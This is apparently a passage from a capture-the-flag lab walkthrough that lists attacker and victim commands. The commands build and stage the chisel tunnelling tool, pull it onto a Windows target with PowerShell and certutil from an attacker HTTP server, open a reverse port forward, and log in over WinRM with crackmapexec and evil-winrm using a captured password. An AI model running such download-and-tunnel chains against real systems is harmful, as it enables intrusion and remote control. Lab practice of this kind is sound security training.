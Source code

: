 > **Attacker Machine**:

```bash
git clone https://github.com/jpillora/chisel
go build -ldflags '-s -w' .
du -hc chisel
upx chisel &>/dev/null
du -hc chisel
./chisel
# :)

mv /home/al3j0/Downloads/chisel_1.7.6_windows_amd64.gz ./chisel.exe.gz
gunzip chisel.exe.gz
md5sum chisel.exe
impacket-smbserver smbFolder $(pwd) -smb2support
```

> **Victime Machine**:

```cmd
copy \\10.10.14.9\smbFolder\chisel.exe .\chisel.exe
# :(
```

> **Attacker Machine**:

```bash
python3 -m http.server 80
```

> **Victime Machine**:

```cmd
powershell -c 'iwr -uri http://10.10.14.9/chisel.exe -OutFile .\chisel.exe'
certutil.exe -urlcache -f -split http://10.10.14.9/chisel.exe
certutil -hashfile .\chisel.exe MD5
# :)
```

> **Attacker Machine**:

```bash
./chisel server --reverse --port 1234
```

> **Victime Machine**:

```cmd
.\chisel.exe client 10.10.14.9:1234 R:5985:127.0.0.1:5985
```

> **Attacker Machine**:

```bash
lsof -i:5985
crackmapexec winrm 127.0.0.1 -u 'chris' -p '36...VM' 2>/dev/null
# :)
evil-winrm -i 127.0.0.1 -u 'chris' -p '36...VM'
```
